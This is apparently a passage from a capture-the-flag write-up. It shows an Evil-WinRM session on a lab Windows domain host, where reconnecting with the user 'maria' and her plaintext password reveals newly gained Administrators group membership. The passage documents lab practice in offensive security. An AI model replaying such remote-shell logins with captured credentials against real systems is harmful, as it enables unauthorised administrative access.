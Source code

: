 ### WinRM with Domain Admin

The group will not be in my current session:

```
*Evil-WinRM* PS C:\programdata> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

```

But if I exit and reconnect, it will be:

```
*Evil-WinRM* PS C:\programdata> exit

Info: Exiting with code 0

oxdf@hacky$ evil-winrm -i 10.10.11.132 -u maria -p 'W3llcr4ft3d_4cls'

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                           Attributes
============================================= ================ ============================================= ===============================================================
Everyone                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users               Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                 Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access    Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
```